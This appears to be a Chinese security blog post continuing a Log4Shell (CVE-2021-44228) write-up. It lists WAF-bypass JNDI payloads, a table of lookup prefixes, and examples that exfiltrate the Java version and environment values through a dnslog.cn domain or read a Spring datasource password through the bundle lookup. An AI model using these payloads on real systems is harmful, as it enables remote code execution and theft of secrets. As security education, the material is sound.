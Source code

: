 本篇是上一篇的续篇，主要是对上一篇中的额外内容进行补充

上一篇地址：[log4j2 变量注入漏洞(CVE-2021-44228)](https://www.cnblogs.com/erosion2020/p/18583981)

## 漏洞绕过

这里主要补充一下知道服务可以触发log4j2漏洞，但是漏洞无法被利用的情况，然后罗列了一些常见的绕过方法。

### 绕过WAF防御

有的WAF在漏洞出现后针对提出 `${` 、`jndi`、`ldap`、`rmi` 等关键词规则的防护。但研究后发现都会存在被绕过问题。比如上次我们分析的payload是这样的：

> ```
> ${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}
> ```

在WAF中这样的参数就会被拦截，然后这里总结了一下网上师傅们给出来的其他绕过payload:

```
${${a:-j}ndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${a:-j}n${::-d}i:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:jn}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```



### 协议总结

log4j2中其实支持了很多种关键字协议，比如：

{date, ctx, lower, upper, main, env, sys, sd, java, marker, jndi, jvmrunargs, event, bundle, map, log4j}

以下是一个简化版的表格，列出了 Log4j 2.x 常见的协议类型及其含义：

| 协议类型       | 描述                                             | 可能的漏洞利用方式                            |
| -------------- | ------------------------------------------------ | --------------------------------------------- |
| **date**       | 格式化当前日期和时间                             | 攻击者通过控制日期格式影响日志显示或隐藏信息  |
| **ctx**        | 上下文信息（日志事件相关的元数据）               | 控制上下文信息，可能触发恶意日志格式化操作    |
| **lower**      | 转换为小写                                       | 可以用来绕过大小写敏感的过滤或安全检查        |
| **upper**      | 转换为大写                                       | 同 `lower`，绕过大小写检查                    |
| **main**       | 主日志记录器，控制大部分日志记录行为             | 控制主日志记录器，可能影响日志行为            |
| **env**        | 环境变量（如 `JAVA_HOME`、`PATH`）               | 通过环境变量注入恶意信息或改变日志行为        |
| **sys**        | 访问系统属性（如 `os.name`, `user.home`）        | 操控系统属性进行恶意注入或信息泄露            |
| **sd**         | 自定义诊断信息                                   | 通过操控诊断信息注入恶意内容，触发攻击        |
| **java**       | 引用 Java 类和对象，可能触发 RCE                 | 可能导致恶意 Java 类加载，引发远程代码执行    |
| **marker**     | 日志事件的标记，帮助筛选日志                     | 控制日志标记，影响日志筛选或行为              |
| **jvmrunargs** | JVM 启动参数，影响 JVM 启动时的配置              | 攻击者操控 JVM 启动参数，可能绕过安全机制     |
| **event**      | 捕获特定的日志事件，通常用于事件数据处理         | 通过操控日志事件，注入恶意代码                |
| **bundle**     | 与 Java Bundle 相关，涉及打包信息                | 通过操控打包信息注入恶意代码，可能触发攻击    |
| **map**        | 键值对，可能与应用配置或参数传递相关             | 操控 Map 中的键值对注入恶意数据，影响日志行为 |
| **log4j**      | Log4j 内置的功能，涉及日志库的配置和操作         | 可能利用 Log4j 配置或格式化漏洞触发攻击       |
| **jndi**       | JNDI 协议（Java Naming and Directory Interface） | 利用 JNDI 查找触发远程代码执行 (RCE) 漏洞     |

github上有个师傅给了很详细的有用信息和针对这些变量的利用方式：https://github.com/jas502n/Log4j2-CVE-2021-44228

### 信息泄露

这里总结一下大致的利用手法，然后写几个利用漏洞来泄露信息的示例。

1. 泄露Java版本：通过嵌套标签携带信息出来，Log4j2是在substitute方法中递归解析表达式，所以可以利用这种嵌套标签，从内到外获取{}中的内容，然后分配给对应的Lookup做解析，获得信息后通过Dnslog带出

   可以看到这个过程其实是解析出了java的版本，然后尝试去访问了ldap://1.8.0_131.47pdsv.dnslog.cn，虽然本地报错了(访问肯定是错的，因为根本就不匹配)，但是在DNS访问记录中却记录了这一次的访问。

> ${jndi:ldap://${sys:java.version}.47pdsv.dnslog.cn}

![image-20241203185938891](./main.assets/log4j-2-1.png)

2. 泄露操作系统版本

   通过env和sys协议，可以读取到一些环境变量和系统变量，以及Hostname等相关信息。

> ${jndi:ldap://${env:os}.47pdsv.dnslog.cn}

![image-20241203190513579](./main.assets/log4j-2-2.png)

3. bundle(别的师傅写的)

在浅蓝师傅的文章中提到的一种特殊`Lookup`，源码的`BundleLookup`核心内容如下

```
public String lookup(final LogEvent event, final String key) {
    ...
    final String bundleName = keys[0];
    final String bundleKey = keys[1];
    ...
    return ResourceBundle.getBundle(bundleName).getString(bundleKey);
}
```

在通常情况下这个`ResourceBundle`被用来做国际化，网站通常会给一段表述的内容翻译成多种语言。在`SpringBoot`下可能会获取到关键信息，将会比`Sys`和`Env`更严重，但这种情况略显鸡肋，需要手动排除`SpringBoot`自带的日志依赖并加入`Log4j2`的依赖（这种情况可能不多）

通过`${bundle:application:spring.datasource.password}`可以直接拿到数据库密码。

